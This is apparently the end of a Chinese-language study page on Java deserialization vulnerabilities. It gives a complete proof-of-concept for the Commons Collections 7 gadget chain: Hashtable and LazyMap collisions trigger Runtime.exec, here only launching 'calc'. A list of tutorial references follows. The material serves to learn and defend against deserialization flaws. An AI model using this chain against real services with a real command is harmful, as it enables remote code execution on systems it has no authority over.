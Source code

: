 | ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Hashtable;<br>import java.util.Map;<br><br>public class CommonsCollections7 {<br><br>    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {<br><br>        Transformer[] fakeTransformer = new Transformer[]{};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        //先设置假的 Transformer 数组，防止生成时执行命令<br>        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);<br><br>        //LazyMap实例<br>        Map innerMap1 = new HashMap();<br>        Map innerMap2 = new HashMap();<br><br>        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);<br>        lazyMap1.put("yy", 1);<br><br>        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);<br>        lazyMap2.put("zZ", 1);<br><br>        Hashtable hashtable = new Hashtable();<br>        hashtable.put(lazyMap1, "test");<br>        hashtable.put(lazyMap2, "test");<br><br><br>        //通过反射设置真的 ransformer 数组<br>        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");<br>        field.setAccessible(true);<br>        field.set(chainedTransformer, transformers);<br><br>        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除<br>        lazyMap2.remove("yy");<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(hashtable);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br>    }<br><br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java 反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java 反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从 0 开始学 Java 反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java 反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://wx.zsxq.com/dweb2/index/group/2212251881)

[CC 链 1-7 分析](https://xz.aliyun.com/t/9409)

[Java 安全学习 Day2 – ysoserial CC 系列](https://x5tar.com/posts/java-sec-day2/)
